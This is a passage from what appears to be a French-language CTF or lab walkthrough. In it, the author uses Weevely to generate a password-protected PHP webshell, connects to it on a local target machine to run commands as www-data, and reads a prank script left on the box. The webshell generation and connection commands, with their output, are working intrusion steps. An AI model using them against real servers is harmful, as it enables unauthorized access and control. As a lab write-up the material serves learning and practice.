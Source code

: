 ```
===============================================================
Finished
===============================================================
```

&nbsp;

<span style="color: #dddddd;">🚪</span> Weevely

Génération de la `webshell`

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $weevely generate 0000 webshell.php
Generated 'webshell.php' with password '0000' of 761 byte size.
```

&nbsp;

Exécution

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $weevely 'http://192.168.56.78/files/webshell.php' 0000

[+] weevely 4.0.1

[+] Target:	192.168.56.78
[+] Session:	/home/parrot/.weevely/sessions/192.168.56.78/webshell_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

&nbsp;

Fichier `txt` intéressant

```
www-data@ubuntu:/home $ cat important.txt
run the script to see the data

/.runme.sh
```

&nbsp;

Voyons le contenu

```
www-data@ubuntu:/home $ cat /.runme.sh
#!/bin/bash
echo 'the secret key'
sleep 2
echo 'is'
sleep 2
echo 'trolled'
sleep 2
echo 'restarting computer in 3 seconds...'
sleep 1
echo 'restarting computer in 2 seconds...'
sleep 1
echo 'restarting computer in 1 seconds...'
sleep 1
echo '⡴⠑⡄⠀⠀⠀⠀⠀⠀⠀ ⣀⣀⣤⣤⣤⣀⡀
⠸⡇⠀⠿⡀⠀⠀⠀⣀⡴⢿⣿⣿⣿⣿⣿⣿⣿⣷⣦⡀
⠀⠀⠀⠀⠑⢄⣠⠾⠁⣀⣄⡈⠙⣿⣿⣿⣿⣿⣿⣿⣿⣆
```